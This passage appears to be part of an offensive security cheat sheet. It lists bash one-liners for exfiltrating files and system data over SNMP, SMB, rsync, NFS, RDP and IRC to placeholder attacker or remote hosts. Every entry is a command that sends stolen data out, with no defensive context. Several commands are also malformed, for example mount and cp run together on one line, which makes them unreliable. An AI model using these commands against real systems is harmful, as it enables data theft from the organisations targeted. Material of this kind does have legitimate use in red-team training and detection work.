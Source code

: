 #### SNMP
- **Use SNMP to Exfiltrate System Information:**
	```bash
	snmpwalk -v 2c -c public <target_ip> > /path/to/local_file
	```
- **Write Exfiltrated Data to a Remote SNMP Trap:**
	```bash
	snmptrap -v 2c -c public <remote_ip> "" "" 6 17 "" s "$(cat /path/to/local_file)"
	```

#### SMB
- **Mount an SMB Share and Exfiltrate Files:**
	```bash
	mount -t cifs //<remote_ip>/share /mnt -o username=user,password=pass cp /path/to/local_file /mnt/
	```
- **Exfiltrate Data Using `smbclient`:**
	```bash
	smbclient //<remote_ip>/share -U user%password -c "put /path/to/local_file"
	```

#### Rsync
- **Sync directory with a remote server via `rsync`:**
	```bash
	rsync -avz /path/to/dir <username>@<attack_ip>:/path/to/destination
	```
- **Exfiltrate Files with an Encrypted Tunnel Using `rsync`:**
	```bash
	rsync -avz -e ssh /path/to/local_directory <username>@<remote_ip>:/path/to/remote_directory
	```

#### NFS
- **Mount an NFS Share and Exfiltrate Files:**
	```bash
	sudo mount <remote_ip>:/path/to/share /mnt cp /path/to/local_file /mnt/
	```
- **Exfiltrate Data by Writing to an NFS Share:**
	```bash
	echo "Sensitive data" > /mnt/remote_file.txt
	```

#### RDP 
- **Exfiltrate Data Over RDP with File Redirection:**
	```bash
	xfreerdp /v:<remote_ip> /u:user /p:password /drive:share,/path/to/local_directory
	```
- **Automate RDP Exfiltration Using Scripts:**
	```bash
	rdesktop -u user -p password -r disk:share=/path/to/local_directory <remote_ip>
	```

#### IRC
- **Connect to an IRC Server and Exfiltrate Data:**
	```bash
	irssi -c <irc_server> -n <nickname> -w <password> /join #channel /msg #channel $(cat /path/to/local_file)
	```
- **Automate IRC Exfiltration with a Script:**
	```bash
	irssi -c <irc_server> -n <nickname> -w <password> -e "/join #channel; /msg #channel $(cat /path/to/local_file); /quit"
	```
